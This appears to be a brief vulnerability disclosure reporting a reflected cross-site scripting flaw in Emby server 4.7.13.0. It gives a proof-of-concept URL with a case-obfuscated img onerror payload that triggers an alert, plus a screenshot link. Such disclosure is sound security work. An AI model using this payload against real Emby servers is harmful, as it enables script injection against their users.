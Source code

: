 # Vulnerability Description
I found a Reflected Cross-Site Scripting （XSS） in the latest version of Emby server version  4.7.13.0

official address：
https://emby.media/
[https://github.com/MediaBrowser/Emby.Releases](https://github.com/MediaBrowser/Emby.Releases/releases/download/4.7.13.0/embyserver-win-x64-4.7.13.0.7z)

# Vulnerability Details

Everything after /web/ is reflected. See the attachments for an example: 
```
http://<ip>:<port>/web/%3Cimg%20sRc=l%20oNerrOr=alert('xss')%20x%3E
```

![image](https://github.com/whoamiecho/vuls/assets/6848485/f134d630-aa3f-4a12-a425-cc754dfd95f2)




